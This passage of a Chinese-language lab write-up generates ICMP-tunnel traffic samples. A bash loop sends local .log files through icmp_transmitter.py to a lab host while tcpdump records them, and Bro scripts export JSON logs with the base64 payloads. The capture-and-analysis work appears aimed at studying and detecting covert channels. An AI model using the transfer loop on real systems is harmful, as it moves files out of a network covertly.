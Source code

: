 2）准备icmp_transmitter.py文件（其中main处做了修改，以适合linux环境）

3）传输文件、打包Pcap

执行./icmp_trans.sh

```bash
#!/bin/bash
# icmp_trans.sh
for i in $(find -name "*.log")
do
    echo "[*] processing: ${i##*/}"
    while true
    do
        echo ${i##*/}
        tcpdump -i ens33 icmp -w $i.pcap &
        python icmp_transmitter.py ${i##*/} 192.168.1.108
        if [ $? -eq 0 ]; then
             sleep 1s
             ps aux | grep tcpdump | grep -v grep | awk '{print $2}' | sudo xargs kill
             break
        fi
    done
done
```
4)导出结果
```bash
for i in $(find ../ -name "*.pcap")
do
    echo "[*] processing: ${i##*/}"
    bro -C -r ../${i##*/} ~/bro-scripts/entrypoint.bro
    i=${i##*/}
    mv tophant.icmp.log ${i%%.pcap}.icmp.json
done
```

```json
{"ts":1519301490.563351,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":8,"icode":0,"len":86,"hlim":64,"v6":false,"id":26341,"seq":256,"payload":"$$START$$UnY2R2RpZTVDNDFIUWd6d1hwaEZiZkJ1SzczcjJBbE5FeHRKamtMRG9xSXNWbVdjTW45UDhhMFVU\u000a"}
{"ts":1519301490.565022,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":0,"icode":0,"len":86,"hlim":64,"v6":false,"id":26341,"seq":256,"payload":"$$START$$UnY2R2RpZTVDNDFIUWd6d1hwaEZiZkJ1SzczcjJBbE5FeHRKamtMRG9xSXNWbVdjTW45UDhhMFVU\u000a"}
{"ts":1519301490.566186,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":8,"icode":0,"len":86,"hlim":64,"v6":false,"id":23341,"seq":256,"payload":"$$START$$UnY2R2RpZTVDNDFIUWd6d1hwaEZiZkJ1SzczcjJBbE5FeHRKamtMRG9xSXNWbVdjTW45UDhhMFVU\u000a"}
{"ts":1519301490.566439,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":0,"icode":0,"len":86,"hlim":64,"v6":false,"id":23341,"seq":256,"payload":"$$START$$UnY2R2RpZTVDNDFIUWd6d1hwaEZiZkJ1SzczcjJBbE5FeHRKamtMRG9xSXNWbVdjTW45UDhhMFVU\u000a"}
{"ts":1519301490.56692,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":8,"icode":0,"len":86,"hlim":64,"v6":false,"id":8227,"seq":256,"payload":"$$START$$T1p5U1k=\u000a"}
{"ts":1519301490.56922,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":0,"icode":0,"len":86,"hlim":64,"v6":false,"id":8227,"seq":256,"payload":"$$START$$T1p5U1k=\u000a"}
{"ts":1519301490.569721,"P":2,"info_message":true,"request":true,"reply":false,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":8,"icode":0,"len":86,"hlim":64,"v6":false,"id":23341,"seq":256,"payload":"$$START$$T1p5U1k=\u000a"}
{"ts":1519301490.570071,"P":2,"info_message":true,"request":false,"reply":true,"error_message":false,"orig_h":"192.168.1.106","resp_h":"192.168.1.108","itype":0,"icode":0,"len":86,"hlim":64,"v6":false,"id":23341,"seq":256,"payload":"$$START$$T1p5U1k=\u000a"}
```
